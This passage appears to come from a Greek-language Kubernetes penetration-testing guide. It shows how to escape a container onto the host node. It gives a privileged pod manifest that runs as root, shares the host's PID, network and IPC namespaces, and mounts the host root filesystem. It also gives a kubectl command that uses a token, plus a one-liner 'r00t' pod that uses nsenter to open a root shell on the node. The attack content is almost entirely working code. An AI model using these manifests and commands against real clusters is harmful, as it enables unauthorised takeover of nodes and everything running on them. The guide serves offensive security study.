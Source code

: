 {% code title="super_privs.yaml" %}
```yaml
apiVersion: v1
kind: Pod
metadata:
name: ubuntu
labels:
app: ubuntu
spec:
# Uncomment and specify a specific node you want to debug
# nodeName: <insert-node-name-here>
containers:
- image: ubuntu
command:
- "sleep"
- "3600" # adjust this as needed -- use only as long as you need
imagePullPolicy: IfNotPresent
name: ubuntu
securityContext:
allowPrivilegeEscalation: true
privileged: true
#capabilities:
#  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
runAsUser: 0 # run as root (or any other user)
volumeMounts:
- mountPath: /host
name: host-volume
restartPolicy: Never # we want to be intentional about running this pod
hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
volumes:
- name: host-volume
hostPath:
path: /
```
{% endcode %}

Δημιουργήστε το pod με:
```bash
kubectl --token $token create -f mount_root.yaml
```
Μία γραμμή από [αυτό το tweet](https://twitter.com/mauilion/status/1129468485480751104) και με μερικές προσθήκες:
```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
Τώρα που μπορείτε να διαφύγετε στον κόμβο, ελέγξτε τις τεχνικές μετά την εκμετάλλευση στο:
